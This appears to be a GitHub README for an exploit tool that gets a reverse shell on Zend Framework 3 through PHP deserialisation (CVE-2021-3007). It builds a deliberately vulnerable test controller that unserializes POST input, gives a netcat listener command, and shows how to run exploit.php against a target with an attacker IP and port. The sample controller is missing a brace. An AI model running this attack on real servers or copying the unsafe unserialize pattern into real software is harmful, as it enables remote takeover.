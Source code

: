 # deserial-killer-zf3

Zend Framework 3 deserialisation reverse shell based on CVE-2021-3007 and Ling-Yizhous PoC at https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

## Test Environment

composer create-project zendframework/skeleton-application

Update module/Application/src/Controller/IndexController.php to something like this:

```php
<?php
/**
 * @link      http://github.com/zendframework/ZendSkeletonApplication for the canonical source repository
 * @copyright Copyright (c) 2005-2016 Zend Technologies USA Inc. (http://www.zend.com)
 * @license   http://framework.zend.com/license/new-bsd New BSD License
 */

// curl -X POST <your url> -d 'user=O:4:"User":1:{s:4:"name";s:3:"asd";}'

namespace{

  class User{
    public $name;
  }
}

namespace Application\Controller{

  use Zend\Mvc\Controller\AbstractActionController;
  use Zend\View\Model\ViewModel;

  class IndexController extends AbstractActionController
  {
      public function indexAction()
          $user=unserialize($this->params()->fromPost('user'));
          die("hello {$user->name}");
          return new ViewModel();
      }
   }
}
```
You can test it by running the curl commented in the code fragment above and you will get the message "hello asd".

## Exploitation
* Set up a netcat listner(e.g. nc -vlp 8888)
* Run exploit.php either with exec permissions or via php php with the following command line:
```bash
./exploit.php http://url.to.attack netcat-ip-address  netcat-port post-parameter-to-attack 
```
E.G. With the demo running on localhost (where the post parameter is user)
```sh
./exploit.php http://localhost:8080 127.0.0.1 8888 user
```
